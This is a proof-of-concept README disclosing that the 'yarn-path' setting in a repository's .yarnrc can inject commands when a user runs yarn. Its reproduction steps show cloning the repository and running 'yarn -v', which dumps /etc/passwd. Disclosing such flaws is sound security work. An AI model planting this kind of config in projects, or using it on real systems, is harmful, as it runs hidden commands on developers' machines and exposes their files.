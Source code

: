 # PoC-yarn-path-command-ijnection

[`yarn-path`](https://classic.yarnpkg.com/en/docs/yarnrc/#toc-yarn-path) in `.yarnrc` can cause command injection.

You can reproduce this problem after cloning this repository, and run `yarn` (>=1.0).

```console
$ git clone https://github.com/yykamei/PoC-yarn-path-command-ijnection
$ yarn -v
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
...
```
